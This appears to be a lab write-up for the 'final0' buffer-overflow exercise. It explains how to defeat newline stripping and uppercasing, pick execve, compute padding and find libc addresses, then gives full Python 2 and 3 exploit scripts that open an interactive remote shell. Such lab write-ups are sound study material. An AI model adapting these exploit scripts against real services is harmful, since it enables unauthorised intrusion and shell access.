

# FINAL 0

### Problems

#### Strip off trailing new line characters

```
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;
```

#### Convert to lower case

```
for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }
```

This will remove all `\n` and `\r` chars from buffer and set our injected shell bytes to upper case. But we doing buffer
overflow, so this affects to our bytes injection.

**The solution** is to set the 0x00 terminating somewhere in the buffer 512 body. This will cause the functions read the
buffer until its 0x00, so the length of buffer will be manipulated. Example:
We put the terminating byte in 312's position if the buffer. The function strlen will read all bytes until it bump into
0x00. So the length of the buffer from the execution perspective will be 311. It helps us to prevent manipulating of our
injected bytes.

#### system() or execve()?

Short answer: `execve()`

Long answer: The main problem with `system()` in our inject, that this func forks process, and then calls `execve()`.
This will cause the new esp stack in every call of `system()`, because of fork. So we need something, to prevent it.
The `execve()` function works without fork, so we can use it.

#### Padding

We know that the buffer size is 512. So we need to overwrite it. Doing some research with padding we figured out that
garbage size will be 24 bytes + ebp address (4 bytes). So we left with:

`'A' * 511 + '\x00' (terminate byte to prevent next bytes manipulating) + 'G' * 24 + 'EEEE'` - our padding

#### EXECVE

The execve function receive 3 arguments: (command, ..., ...) *`...` - don't important, we just need to understand where
we must to put the /bin/sh address

##### EXECVE ADDRESS

We need to attach the process if running final0: `gdb $(pidof final0)`.

Next we need to call `info functions @plt` and find execve address.

#### /bin/sh address

To get address of /bin/sh we need to locate the libc start address: `cat /proc/$(pidof final0)/maps`

To get /bin/sh padding: `strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh`

So address will be: `0xb7e97000 + 0x11f3bf`

### Final python2 script

```python
import socket
import struct
import telnetlib

HOST = '127.0.0.1'  # final0 host
PORT = 2995  # final0 port

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))  # socket connection

BUFFER_PAYLOAD = 'A' * 511 + '\x00'  # buffer overwriting
GARBAGE_PAYLOAD = 'AAAABBBBCCCCDDDD' + 'EEEE'  # garbage + epb

PADDING = BUFFER_PAYLOAD + GARBAGE_PAYLOAD  # final padding

EXECVE_ADDRESS = struct.pack('I', 0x08048c0c)  # info functions @plt
BIN_BASH_ADDRESS = struct.pack('I',
                               0xb7e97000 + 0x11f3bf)  # cat /proc/$(pidof final0)/maps + strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh

PAYLOAD = PADDING + EXECVE_ADDRESS + 'AAAA' + BIN_BASH_ADDRESS + '\x00' * 8  # '\x00' * 8: last 2 args of execve()

s.send(PAYLOAD + '\n')
s.send('whoami\n')
print
'user: ' + s.recv(1024)

t = telnetlib.Telnet()  # to interact
t.sock = s
t.interact()
```

### Final python3 script

```python
import socket
import struct
import telnetlib

HOST = '127.0.0.1'  # final0 host
PORT = 2995  # final0 port

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))  # socket connection

BUFFER_PAYLOAD = b'A' * 511 + b'\x00'  # buffer overwriting
GARBAGE_PAYLOAD = b'AAAABBBBCCCCDDDD' + b'EEEE'  # garbage + epb

PADDING = BUFFER_PAYLOAD + GARBAGE_PAYLOAD  # final padding

EXECVE_ADDRESS = struct.pack('I', 0x08048c0c)  # info functions @plt
BIN_BASH_ADDRESS = struct.pack('I',
                               0xb7e97000 + 0x11f3bf)  # cat /proc/$(pidof final0)/maps + strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh

PAYLOAD = PADDING + EXECVE_ADDRESS + b'AAAA' + BIN_BASH_ADDRESS + b'\x00' * 8  # '\x00' * 8: last 2 args of execve()

s.send(PAYLOAD + b'\n')
s.send(b'whoami\n')
print('user: ' + s.recv(1024).decode())

t = telnetlib.Telnet()  # to interact
t.sock = s
t.interact()
```

### Diagram




